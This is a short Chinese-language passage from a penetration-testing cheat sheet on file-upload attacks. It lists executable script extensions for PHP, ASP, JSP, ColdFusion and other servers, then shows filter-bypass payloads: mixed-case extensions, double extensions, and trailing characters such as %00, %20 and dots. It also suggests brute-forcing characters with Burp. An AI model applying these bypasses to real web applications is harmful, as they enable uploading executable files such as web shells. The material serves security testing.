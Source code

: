 ```
PHP: 
.php, .php2, .php3, .php4, .php5, .php6,.php7,
.phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml,
.htaccess, .phar, .inc, .hphp,.ctp, .module

在PHP8版本中仅支持: 
.php, .php4, .php5, .phtml, .module, .inc, .hphp

ASP: 
.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd,
.cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, 
.asa, .cer,.shtml

Jsp: 
.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action

Coldfusion：
.cfm、.cfml、.cfc、.dbm

Flash: .swf

Perl:
.pl, .cgi

Erlang Yaws Web Server: 
.yaws
```



## 绕过文件扩展名检查

1.大小写绕过、更改字母大小写

```
如 .PHp, .pHP5, .PhAr ...
```

2.使用以前的扩展

```
如 file.png.php file.png.php5
```

3. 在末尾添加特殊字符(也可以配合Burp进行爆破所有的ascii和Unicode字符)

```
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
```
